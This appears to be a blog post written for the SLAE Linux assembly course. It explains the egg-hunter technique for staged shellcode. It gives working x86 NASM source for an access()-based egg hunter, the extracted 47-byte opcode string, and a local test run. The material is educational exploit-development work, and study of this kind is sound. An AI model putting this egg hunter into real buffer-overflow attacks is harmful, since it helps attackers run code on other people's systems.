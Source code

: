 **Assignment 3**

	Shellcode for Egghunter  

**Introduction**

	In a normal buffer overflow scenario, the location of where the shellcode is placed is more or less static and/or could be referenced by using a register and the available size in the stack memory is enough to fit the shellcode.Consider a scenario where the available buffer size is too small to squeeze the entire shellcode

	A technique called egg hunting may help us out here. Accoring to corelan ,Egg hunting is a technique that can be categorized as “staged shellcode”, and it basically allows you to use a small amount of custom shellcode to find your actual (bigger) shellcode (the “egg”) by searching for the final shellcode in memory.  In other words, first a small amount of code is executed, which then tries to find the real shellcode and executes it.

	There are 3 conditions that are important in order for this technique to work

		1. You must be able to jump to (jmp, call, push/ret) & execute “some” shellcode.  The amount of available buffer space can be relatively small, because it will only contain the so-called “egg hunter”.  The egg hunter code must be available in a predictable location (so you can reliably jump to it & execute it)

		2. The final shellcode must be available somewhere in memory (stack/heap/…).

		3. You must “tag” or prepend the final shellcode with a unique string/marker/tag. The initial shellcode (the small “egg hunter”) will step through memory, looking for this marker. When it finds it, it will start executing the code that is placed right after the marker using a jmp or call instruction.  This means that you will have to define the marker in the egg hunter code, and also write it just in front of the actual shellcode.


	Good Reads :
			https://www.fuzzysecurity.com/tutorials/expDev/4.html
			https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/
			http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf
			http://r00tin.blogspot.com/2009/03/heap-only-egg-hunter.html


**Methodology**

	The x86 processors in 32-bit mode support page sizes of 4KB, 2MB, and 4MB. Both Linux and Windows map the user portion of the virtual address space using 4KB pages. Bytes 0-4095 fall in page 0, bytes 4096-8191 fall in page 1, and so on.

	The Egghunter code will be browsing through the pages to look for the marker / egg and use access function to see the pages are accessible or not . If we get a efault error for a page ,we can skip that  page and check the next page.Once a valid page is found we look for the egg/marker and jmp on the codepart of the egg/marker


	Access Function

		access() checks whether the calling process can access the file pathname.
		Refer : https://linux.die.net/man/2/access

		int access(const char *pathname, int mode);

		Parameters
			*pathname will be the addresslocation of the page we want to check
			The mode specifies the accessibility check(s) to be performed, and is either the value F_OK, or a mask consisting of the bitwise OR of one or more of R_OK, W_OK, and X_OK. F_OK tests.

	Incase of a access deny , and EFAULT will be returned ie (14)



	Our egg would be 0x41414141 and the egghunter will look for 0x41414141 + "/bin/bash -c ifconfig" shellcode through the memory.once found code will jump onto /bin/sh shellcode

	8bytes 0x4141414141414141 is considered because we dont wanna match the egghunter shellcode itself


		global _start



		section .text

		_start:

        		; initialization
        		xor ecx, ecx
        		mul ecx          		#will clear ecx,eax and edx register
        		xor ebx, ebx
        		xor esi, esi

		next_lpage:
        		or dx,0xfff                
        						#using logical or with 0xfff and a memory address allows us to increment page sizes by a multiple of 4095. so next page is acheived using address location or ed with 0xfff , 4095 and 
        							adding a 1
        						#the reason we cant just increment page sizes with 4096 is hex(4096) = 0x1000 cause a null byte to be added in the shellcode								

		next_incr:
        		inc edx         		#page increment

        						;access function  to check permission

        		xor eax,eax       		#clear eax
        		mov edi,0x41414141      	#edi contains the egg we are looking for .
        		mov al,0x21             	#EAX conatins 33 , access function call number
        							#cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep 33
        							##define __NR_access              33


        		lea ebx,[edx+8]         	#load the address value contained in edx + 8  to ebx 
        		int 0x80                	#access call to check if the page is accessible
        		cmp al,0xf2

        							#after the function call eax contains the return value , in case of 		EFAULT (bad address) the value we are looking for is 14 , ie  cat /usr/include/asm-generic/errno-base.h

        							Since this is an error code it will actually be returned as a negative 14 thus in hex we get back 0xfffffff2  #2s compliment	

        							-14 

									0000 1110 
									1111 0001 + 
							               		1 
									-------------- 
									1111 0010 
									F   2

        		jz next_lpage  			#incase of a efaul , jump to next page

        		cmp edi,[edx]  			#egg match find ?
        		jnz next_incr  			#if not advance memory

        		cmp edi,[edx+4]         	#eggmatch twice ?
        		jnz next_incr			#if not advance page

        		lea esi,[edx+8]			#egg match twice , get the address location of the shellcode to be executed to esi
        		jmp esi				#jmp to location pointed by esi

**Practical**

Egg is 0x41414141 , the shellcode to be executed

	toor@ubuntu:~/Desktop/slae/Assignments/3$ ./compile.sh egg
 	Assembling with nasm
	Success, Now Linking
	Go Ahead, may the force be with you
	toor@ubuntu:~/Desktop/slae/Assignments/3$ objdump -d ./egg|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
		"\x31\xc9\xf7\xe1\x31\xdb\x31\xf6\x66\x81\xca\xff\x0f\x42\x31\xc0\xbf\x41\x41\x41\x41\xb0\x21\x8d\x5a\x08\xcd\x80\x3c\xf2\x74\xe8\x3b\x3a\x75\xe9\x3b\x7a\x04\x75\xe4\x8d\x72\x08\xff\xe6"


	toor@ubuntu:~/Desktop/slae/Assignments/3$ nano poc.c
	toor@ubuntu:~/Desktop/slae/Assignments/3$ gcc -fno-stack-protector -z execstack poc.c -o shellcode
	toor@ubuntu:~/Desktop/slae/Assignments/3$ ./shellcode
	Size: 47 bytes.
	eth0    Link encap:Ethernet  HWaddr 00:0c:29:f5:aa:6c
         	inet addr:192.168.230.169  Bcast:192.168.230.255  Mask:255.255.255.0
          	inet6 addr: fe80::20c:29ff:fef5:aa6c/64 Scope:Link
          	UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          	RX packets:83289 errors:0 dropped:0 overruns:0 frame:0
          	TX packets:34547 errors:0 dropped:0 overruns:0 carrier:0
          	collisions:0 txqueuelen:1000
          	RX bytes:57571168 (57.5 MB)  TX bytes:6962937 (6.9 MB)
          	Interrupt:19 Base address:0x2000
		
	lo      Link encap:Local Loopback
          	inet addr:127.0.0.1  Mask:255.0.0.0
          	inet6 addr: ::1/128 Scope:Host
          	UP LOOPBACK RUNNING  MTU:65536  Metric:1
          	RX packets:6986 errors:0 dropped:0 overruns:0 frame:0
          	TX packets:6986 errors:0 dropped:0 overruns:0 carrier:0
          	collisions:0 txqueuelen:0
          	RX bytes:627379 (627.3 KB)  TX bytes:627379 (627.3 KB)

	toor@ubuntu:~/Desktop/slae/Assignments/3$




**Github Repo**

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1509
        	

